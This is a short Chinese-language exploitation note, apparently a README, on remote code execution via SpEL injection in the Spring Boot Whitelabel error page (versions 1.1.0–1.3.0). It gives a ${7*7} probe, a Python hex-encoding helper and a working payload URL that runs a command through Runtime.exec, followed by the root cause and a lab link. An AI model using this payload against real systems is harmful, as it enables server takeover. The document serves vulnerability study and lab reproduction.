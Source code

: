 # whitelabel error page SpEL RCE

## 利用条件：

- spring boot 1.1.0-1.1.12、1.2.0-1.2.7、1.3.0
- 至少知道一个触发 springboot 默认错误页面的接口及参数名

## 利用方法：

### 步骤一：找到一个正常传参处

比如发现访问 `/article?id=xxx` ，页面会报状态码为 500 的错误： `Whitelabel Error Page`，则后续 payload 都将会在参数 id 处尝试。

### 步骤二：执行SpEL表达式

输入 `/article?id=${7*7}` ，如果发现报错页面将 7*7 的值 49 计算出来显示在报错页面上，那么基本可以确定目标存在 SpEL 表达式注入漏洞。

由字符串格式转换成 `0x**` java 字节形式，方便执行任意代码：

```python
# coding: utf-8

result = ""
target = 'calc'
for x in target:
    result += hex(ord(x)) + ","
print(result.rstrip(','))
```

执行 calc 命令

```
http://localhost:9091/article?id=${T(java.lang.Runtime).getRuntime().exec(new%20String(new%20byte[]{0x63,0x61,0x6c,0x63}))}
```

![image-20220302160610774](README/image-20220302160610774.png)

## 漏洞原理：

1. spring boot 处理参数值出错，流程进入 `org.springframework.util.PropertyPlaceholderHelper` 类中
2. 此时 URL 中的参数值会用 `parseStringValue` 方法进行递归解析
3. 其中 `${}` 包围的内容都会被 `org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration` 类的 `resolvePlaceholder` 方法当作 SpEL 表达式被解析执行，造成 RCE 漏洞

## 漏洞分析：

 [SpringBoot SpEL表达式注入漏洞-分析与复现](https://www.cnblogs.com/litlife/p/10183137.html)

## 漏洞环境：

[repository/springboot-spel-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-spel-rce)